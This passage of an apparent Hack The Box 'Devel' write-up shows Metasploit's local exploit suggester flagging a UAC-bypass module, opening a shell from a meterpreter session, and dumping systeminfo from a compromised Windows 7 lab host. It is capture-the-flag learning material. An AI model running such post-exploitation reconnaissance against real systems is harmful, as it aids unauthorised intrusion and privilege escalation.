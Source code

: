 
// Getting ERROR, Didnt wiork for me...

    msf6 post(multi/recon/local_exploit_suggester) > exploit

    [*] 10.10.10.5 - Collecting local exploits for x86/windows...
    [*] 10.10.10.5 - 38 exploit checks are being tried...
    [+] 10.10.10.5 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
    [-] 10.10.10.5 - Post failed: NoMethodError undefined method `reverse!' for nil:NilClass

// We can also use python script [Windows-Exploit-Suggester](https://github.com/AonCyberLabs/Windows-Exploit-Suggester)(By AonCyberLabs) 

// Back to our meterpreter and open a shell

    meterpreter > shell
    Process 2248 created.
    Channel 2 created.
    Microsoft Windows [Version 6.1.7600]
    Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

    c:\windows\system32\inetsrv>
    
// Execute 'systeminfo' command
    
    c:\windows\system32\inetsrv>systeminfo
    systeminfo

    Host Name:                 DEVEL
    OS Name:                   Microsoft Windows 7 Enterprise 
    OS Version:                6.1.7600 N/A Build 7600
    OS Manufacturer:           Microsoft Corporation
    OS Configuration:          Standalone Workstation
    OS Build Type:             Multiprocessor Free
    Registered Owner:          babis
    Registered Organization:   
    Product ID:                55041-051-0948536-86302
    Original Install Date:     17/3/2017, 4:17:31 ��
    System Boot Time:          7/8/2021, 11:58:04 ��
    System Manufacturer:       VMware, Inc.
    System Model:              VMware Virtual Platform
    System Type:               X86-based PC
    Processor(s):              1 Processor(s) Installed.
                               [01]: x64 Family 23 Model 1 Stepping 2 AuthenticAMD ~2000 Mhz
    BIOS Version:              Phoenix Technologies LTD 6.00, 12/12/2018
    Windows Directory:         C:\Windows
    System Directory:          C:\Windows\system32
    Boot Device:               \Device\HarddiskVolume1
    System Locale:             el;Greek
    Input Locale:              en-us;English (United States)
    Time Zone:                 (UTC+02:00) Athens, Bucharest, Istanbul
    Total Physical Memory:     3.071 MB
    Available Physical Memory: 2.539 MB
    Virtual Memory: Max Size:  6.141 MB
    Virtual Memory: Available: 5.553 MB
    Virtual Memory: In Use:    588 MB
    Page File Location(s):     C:\pagefile.sys
    Domain:                    HTB
    Logon Server:              N/A
    Hotfix(s):                 N/A
    Network Card(s):           1 NIC(s) Installed.
                               [01]: vmxnet3 Ethernet Adapter
                                     Connection Name: Local Area Connection 3
                                     DHCP Enabled:    No
                                     IP address(es)
                                     [01]: 10.10.10.5
                                     [02]: fe80::58c0:f1cf:abc6:bb9e
                                     [03]: dead:beef::b8d4:921f:136a:726b